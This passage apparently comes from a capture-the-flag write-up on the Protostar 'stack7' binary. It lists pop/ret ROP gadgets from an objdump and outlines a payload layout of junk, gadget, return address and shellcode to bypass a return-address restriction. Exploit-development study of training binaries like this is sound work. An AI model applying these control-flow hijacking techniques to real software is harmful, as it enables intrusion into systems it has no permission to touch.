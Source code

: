 ```
objdump -s stack7

<snipped>
Contents of section .text:
8048410 31ed5e89 e183e4f0 50545268 60850408  1.^.....PTRh`...
8048420 68708504 08515668 45850408 e883ffff  hp...QVhE.......
<snipped>
```

The above tells us that our ".text" section starts at "0x08048410" which, luckily, does not land in our restricted memory address value of "0xb0000000" which is a good start! 

Now we want to try and find a gadget. Looking through the objdump of the binary, I can manually highlight a few:

```
80485f7:	5b                   	pop    %ebx
80485f8:	5d                   	pop    %ebp
80485f9:	c3                   	ret

80485c5:	5b                   	pop    %ebx
80485c6:	5e                   	pop    %esi
80485c7:	5f                   	pop    %edi
80485c8:	5d                   	pop    %ebp
80485c9:	c3                   	ret

8048563:	5d                   	pop    %ebp
8048564:	c3                   	ret
```

(there are more, but let's used one of these).

So, the above list of gadgets can either all be used in their full extent or they could be shrunk a bit. For example, I realistically only need a single pop and ret, so I could use any of the following address:

```
0x080485f8 -> pop EBP, ret 
0x080485c8 -> pop EBP, ret
0x08048563 -> pop EBP, ret
```

For our first attempt, let's use "0x080485f8" as our EIP overwrite. So far, our payload will need to be:

```
junk + pop/ret + (pop junk)
```

However, at this point, our gadget will literally pop a 4 byte piece of junk off the stack and then return to nothing as the address will be whatever is already in memory at that time.

Ideally, we want our payload to be:

```
junk + pop/ret + (pop junk) + return address + shellcode
```
